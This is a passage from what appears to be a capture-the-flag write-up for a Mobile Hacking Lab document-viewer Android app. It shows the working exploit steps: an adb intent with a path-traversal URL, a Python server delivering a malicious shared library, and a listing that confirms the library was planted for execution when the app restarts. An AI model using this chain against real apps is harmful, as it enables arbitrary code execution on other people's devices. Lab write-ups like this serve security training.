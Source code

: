 This is the command for me to compile an amd64 shared library. To make life easier, it is better to use Android studio to compile it instead of using my method. After compiling it, I use the simple http server from python to host my shared library and abuse the path traversal vulnerability to write the shared library into the specific directory.

```powershell
PS E:\Desktop\Android\apk\mhl> adb shell am start -a android.intent.action.VIEW -d 'http://192.168.68.107:8000/..%2F..%2F..%2F..%2Fdata%2Fuser%2F0%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Farm64-v8a%2Flibdocviewer_pro.so' -t application/pdf
Starting: Intent { act=android.intent.action.VIEW dat=http://192.168.68.107:8000/... typ=application/pdf }
```

```bash
python -c "from http.server import *;HTTPServer(('',8000),type('',(BaseHTTPRequestHandler,),{'do_GET':lambda s:(s.send_response(200),s.end_headers(),s.wfile.write(open('libdocviewer_pro.so','rb').read()))})).serve_forever()"
192.168.68.109 - - [08/Apr/2025 00:01:39] "GET /..%2F..%2F..%2F..%2Fdata%2Fuser%2F0%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Farm64-v8a%2Flibdocviewer_pro.so HTTP/1.1" 200 -
```

```bash
beryllium:/ # ls -la /data/user/0/com.mobilehackinglab.documentviewer/files/native-libraries/arm64-v8a/
total 16
drwx------ 2 u0_a343 u0_a343 4096 2025-04-08 00:01 .
drwx------ 3 u0_a343 u0_a343 4096 2025-04-08 00:01 ..
-rw------- 1 u0_a343 u0_a343 5496 2025-04-08 00:01 libdocviewer_pro.so
```

After confirming the file is successfully write into the desired endpoint, the shared library should be executed if I just restart the application. 
